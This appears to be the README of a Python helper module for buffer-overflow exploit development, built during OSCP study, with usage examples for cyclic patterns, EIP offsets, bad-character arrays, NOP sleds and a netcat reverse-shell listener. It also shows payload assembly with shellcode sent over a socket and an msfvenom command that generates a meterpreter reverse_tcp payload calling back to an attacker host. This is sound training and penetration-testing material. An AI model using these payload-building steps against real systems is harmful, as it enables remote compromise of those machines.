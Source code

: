 # buffero

Buffer Overflow Exploit Developement Pyton module

I have created this module while I'm preparing for OSCP. This module helps the Buffer Overflow exploit developement in python language.

Currently working modules:
 - encode()			// Encode the string for socket 
 - decode()			// Decode the string
 - generate_bctest()		// Generate Bad Character Array
 - generate_pattern()		// Generate Cyclic Pattern line msf-pattern_create
 - get_pattern_offset()		// Get the offset of the specifies pattern element
 - generate_nop_sled()		// generate NOP sled
 - spawn_rev_shell()		// Spawn a reverse shell with nc 
 - connect_bind_shell()		// Connect to bind shell
 - pack()			// packs the address, depends on the given parameters

# How to use buffero module

This summary will describe how to use buffero

### Generate Cyclic Pattern

The **generate_pattern** function will generate an unique pattern, same as **msf-pattern_create**
```python
import buffero

# Generate 1200 length of Cyclic pattern
# Equivalent with msf-pattern_create -l 1200
pattern = buffero.generate_pattern(1200)
# pattern = Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...
```

---

### Get the offset of the EIP value

The **get_pattern_offset** method will help to find the right offset value
```python
import buffero
    
EIP = '386F4337'	# The value of the EIP register
offset = buffero.get_pattern_offset(1200,EIP)
# offset = 2003
```
---

### Generate Bad Characters

```python
import buffero
    
badchararr = [0x00]	# Specify \x00 as a bad character
    
# Generate a bad character array without the \x00 character
bc = buffero.generate_bctest(badchars=badchararr)
```
Additionally, the **generate_bctest** function will write a result into a file which name is **bctest.bin**. This file is easily examine by xxd command.
```bash
root@kali:~# xxd bctest.bin
00000000: 0102 0304 0506 0708 090a 0b0c 0d0e 0f10  ................
00000010: 1112 1314 1516 1718 191a 1b1c 1d1e 1f20  ................
00000020: 2122 2324 2526 2728 292a 2b2c 2d2e 2f30  !"#$%&'()*+,-./0
00000030: 3132 3334 3536 3738 393a 3b3c 3d3e 3f40  123456789:;<=>?@
00000040: 4142 4344 4546 4748 494a 4b4c 4d4e 4f50  ABCDEFGHIJKLMNOP
00000050: 5152 5354 5556 5758 595a 5b5c 5d5e 5f60  QRSTUVWXYZ[\]^_`
00000060: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
00000070: 7172 7374 7576 7778 797a 7b7c 7d7e 7f80  qrstuvwxyz{|}~..
00000080: 8182 8384 8586 8788 898a 8b8c 8d8e 8f90  ................
00000090: 9192 9394 9596 9798 999a 9b9c 9d9e 9fa0  ................
000000a0: a1a2 a3a4 a5a6 a7a8 a9aa abac adae afb0  ................
000000b0: b1b2 b3b4 b5b6 b7b8 b9ba bbbc bdbe bfc0  ................
000000c0: c1c2 c3c4 c5c6 c7c8 c9ca cbcc cdce cfd0  ................
000000d0: d1d2 d3d4 d5d6 d7d8 d9da dbdc ddde dfe0  ................
000000e0: e1e2 e3e4 e5e6 e7e8 e9ea ebec edee eff0  ................
000000f0: f1f2 f3f4 f5f6 f7f8 f9fa fbfc fdfe ff    ...............
```

---

### Generating NOP Sled


```python
import buffero

nops = buffero.generate_nop_sled(16)
# nops = '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'

```

---

### Packing the JMP Address

```python
import buffero

# same as struct.pack('<I',0x625011af)
# but in this case the result will be an str
addr = buffero.pack('<I',0x625011af)

```
---

### Spawning a Reverse Shell

```python
import buffero

# Listening on 0.0.0.0:9001
buffero.spawn_rev_shell(9001)
```

---

### Encoding and Decoding

In python3 socket.send() will work only byte type array. The encode method will encode the given string into 'Latin-1' encoded byte array.
The decode method will do the same but reverse order. Generate a string with 'Latin-1' encoding from byte array. This is useful when shellcode concatenated with the other pieces of the payload.

```python
import buffero

shellcode  = ""
shellcode += b"\xbb\x6a\xf5\xdd\x01\xd9\xe8\xd9\x74\x24\xf4"
...
shellcode += b"\x41\xa1\x25\xeb\xda\x44\x49\x58\xda\x4c"

# Decoding to string the given bytes type shellcode.
payload += offset + eip + padding + buffero.decode(shellcode) + suffix

# Encoding to bytes type array the concatenated payload
s.send(buffero.encode(payload))
```

---

### Generating Shellcode with MsfVenom

This module will use the MsfVenom application which installed on Kali systems by default. The purpose of this module to fasten the developement, avoiding to leave the developement platform, while generating shellcode, and copy and paste it. This module is not too smart but works well, if the requirements are installed.
Important note, the format must be python.
```python
import buffero

msf = msf_shellcode()

# Run custom MsfVenom command and get the shellcode back
# No need to specify the 'msfvenom' word
shellcode = msf.run_msfvenom_command('-p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9001 EXITFUNC=thread -f python')
# shellcode = xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b...

# Use predefined functions for fasten the developement
# Keyword arguments are enabled.
# Create POP CALC for determine the exploit is working.
shellcode = msf.generate_popcalc(exitfunc="thread",badchars="\\x00\\x0a")	# Escaping bad caharacters is important especially NULL sequence

# Create Netcat catchable Reverse shell.
shellcode = msf.generate_ncrev_shell(exitfunc="thread",badchars="",lhost="",lport="")
```
